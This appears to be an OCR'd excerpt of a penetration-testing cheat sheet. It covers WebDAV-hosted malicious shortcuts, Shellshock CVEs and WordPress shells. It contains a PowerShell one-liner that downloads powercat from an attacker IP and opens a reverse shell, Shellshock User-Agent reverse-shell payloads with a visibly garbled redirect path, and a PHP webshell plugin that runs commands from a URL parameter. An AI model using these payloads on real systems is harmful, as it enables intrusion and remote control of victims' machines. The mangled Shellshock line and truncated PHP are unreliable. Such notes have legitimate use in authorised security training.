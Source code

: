 Host a malicious windowss shortcut file in that webdav directory that will gonna give us back the reverse shell.
```shell
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
Shortcut file content
```shell

powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.158:8888/psh_scripts/powercat.ps1'); powercat -c 192.168.45.158 -p 4444 -e powershell"

```


## Vulnerabilities OR CVE
### Shellshock
| CVE ID              | Description                                             |
| ------------------- | ------------------------------------------------------- |
| CVE-2014-6271 (RCE) | The original Shellshock vulnerability                   |
| CVE-2014-7169       | Incomplete patch for 6271                               |
| CVE-2014-7186       | Memory corruption when handling deeply nested functions |
| CVE-2014-7187       | Off-by-one error in Bash parser (loop construct)        |
| CVE-2014-6277       | Exploitable parser bug (discovered by Michal Zalewski)  |
| CVE-2014-6278 (RCE) | Another parser bug (also by Michal Zalewski)            |

```shell
User-Agent: () { ignored;};/bin/bash -i >& /dev/10.10.14.6/4444/port 0>&1

User-Agent: () { :;};/bin/bash -i >& /dev/10.10.14.6/4444/port 0>&1
```
##### Exploit Online:
[exploitdb 34900](https://www.exploit-db.com/exploits/34900)
[Cisco UCS Manager 2014-6278](https://www.exploit-db.com/exploits/39568)

## Victim Machine Payloads & Shells
### Shells
- https://github.com/samratashok/nishang
- https://www.revshells.com/
#### WP plugin shells
- [WordPress WebShell Plugin](https://github.com/p0dalirius/Wordpress-webshell-plugin)
```php title:webshell.php
<?php

/**  
* Plugin Name: Reverse Shell Plugin  
* Plugin URI:  
* Description: Reverse Shell Plugin  
* Version: 1.0  
* Author: Anon  
* Author URI: http://www.example.com
*/

// webshell
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    exit;
```